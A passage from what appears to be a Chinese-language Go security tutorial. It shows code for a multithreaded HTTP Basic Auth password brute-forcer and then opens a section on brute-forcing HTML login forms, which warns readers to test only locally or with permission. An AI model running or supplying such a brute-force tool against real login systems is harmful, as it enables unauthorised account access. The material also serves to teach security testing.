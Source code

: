 ```go
         password) 
      os.Exit(0) 
    } 
    doneChannel <- true 
} 

func main() { 
   username, pwListFilename, url := checkArgs() 

   // Open password list file 
   passwordFile, err := os.Open(pwListFilename) 
   if err != nil { 
      log.Fatal("Error opening file. ", err) 
   } 
   defer passwordFile.Close() 

   // Default split method is on newline (bufio.ScanLines) 
   scanner := bufio.NewScanner(passwordFile) 

   doneChannel := make(chan bool) 
   numThreads := 0 
   maxThreads := 2 

   // Check each password against url 
   for scanner.Scan() { 
      numThreads += 1 

      password := scanner.Text() 
      go testBasicAuth(url, username, password, doneChannel) 

      // If max threads reached, wait for one to finish before continuing 
      if numThreads >= maxThreads { 
         <-doneChannel 
         numThreads -= 1 
      } 
   } 

   // Wait for all threads before repeating and fetching a new batch 
   for numThreads > 0 { 
      <-doneChannel 
      numThreads -= 1 
   } 
} 
```

# 暴力破解 HTML 登录表单

几乎每个具有用户系统的网站都在网页上提供登录表单。我们可以编写一个程序来重复提交登录表单。这个例子假设在 Web 应用程序上没有 CAPTCHA、速率限制或其他阻止机制。请记住不要对任何生产站点或您不拥有或没有权限的站点执行此攻击。如果您想测试它，我建议您设置一个本地 Web 服务器并仅在本地测试。
